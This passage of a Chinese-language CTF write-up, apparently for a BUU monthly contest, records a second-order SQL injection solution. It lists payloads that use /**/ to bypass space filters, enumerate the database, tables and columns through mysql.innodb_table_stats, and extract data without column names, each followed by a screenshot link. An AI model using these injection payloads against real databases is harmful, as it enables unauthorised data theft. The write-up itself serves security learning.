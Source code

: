 应该是二次注入

- 查库 'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%204.png)

- 查表 'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%205.png)

- 查列名 'union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/FLAG_TABLE),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%206.png)

- 无列名注入 `'union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22`

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%207.png)
